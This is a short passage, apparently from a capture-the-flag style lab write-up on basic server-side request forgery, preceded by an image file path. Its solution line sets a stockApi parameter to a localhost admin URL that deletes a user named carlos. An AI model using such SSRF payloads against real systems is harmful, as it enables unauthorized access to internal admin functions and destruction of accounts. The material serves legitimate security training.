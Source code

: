 # Lab: Basic SSRF against the local server
Solution: Change the stockApi parameter to 
```stockApi=http://localhost/admin/delete?username=carlos```